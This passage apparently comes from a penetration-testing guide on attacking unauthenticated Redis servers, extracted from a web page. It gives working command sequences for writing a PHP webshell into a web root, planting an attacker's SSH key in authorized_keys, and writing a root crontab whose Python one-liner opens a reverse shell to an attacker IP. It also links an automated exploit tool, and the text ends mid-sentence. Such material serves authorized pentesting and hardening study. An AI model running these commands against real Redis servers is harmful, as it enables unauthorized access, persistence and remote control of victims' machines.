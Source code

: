 Dump the database with npm redis-dump or python redis-utils

Common Redis Vulnerabilities

Webshell

From: <http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html>

You must know the path of the Web site folder:

| 1 2 3 4 5 6 7 8 9  | root@Urahara:\~ redis-cli -h 10.10.x.x 10.10.x.x:6379\> config set dir /usr/share/nginx/html OK 10.10.x.x:6379\> config set dbfilename redis.php OK 10.10.x.x:6379\> set test "\<?php phpinfo(); ?\>" OK 10.10.x.x:6379\> save OK  |
|--------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

SSH

In the output of config get \* you could find the home of the redis user (usually /var/lib/redis or /home/redis/.ssh), and knowing this you know where you can write the authenticated_users file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it:

Generate a ssh public-private key pair on your pc:

| 1  | ssh-keygen -t rsa  |
|----|--------------------|

Write the public key to a file :

| 1  | (echo -e "\\n\\n"; cat ./.ssh/id_rsa.pub; echo -e "\\n\\n") \> foo.txt  |
|----|-------------------------------------------------------------------------|

Import the file into redis :

| 1  | cat foo.txt \| redis-cli -h 10.10.x.x -x set crackit  |
|----|-------------------------------------------------------|

Save the public key to the authorized_keys file on redis server:

| 1 2 3 4 5 6 7  | root@Urahara:\~ redis-cli -h 10.10.x.x 10.10.x.x:6379\> config set dir /home/test/.ssh/ OK 10.10.x.x:6379\> config set dbfilename "authorized_keys" OK 10.10.x.x:6379\> save OK  |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Finally, you can ssh to the redis server with private key :

| 1  | ssh -i id_rsa test@10.10.x.x  |
|----|-------------------------------|

This technique is automated here:

[GitHub - iw00tr00t/Redis-Server-Exploit: This will give you shell access on the target system if redis server is not configured properly and faced on the internet without any authentication](https://github.com/iw00tr00t/Redis-Server-Exploit)

Crontab

10.10.z.z = Attacker, 10.10.x.x = victim redis

| 1 2 3 4 5 6 7 8  | root@Urahara:\~ echo -e "\\n\\n\*/1 \* \* \* \* /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"10.10.z.z\\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);'\\n\\n"\|redis-cli -h 10.10.x.x -x set 1 OK root@Urahara:\~ redis-cli -h 10.10.x.x config set dir /var/spool/cron/crontabs/ OK root@Urahara:\~ redis-cli -h 10.10.x.x config set dbfilename root OK root@Urahara:\~ redis-cli -h 10.10.x.x save OK  |
|------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

The last example for Ubuntu, for Centos, the above command should be:
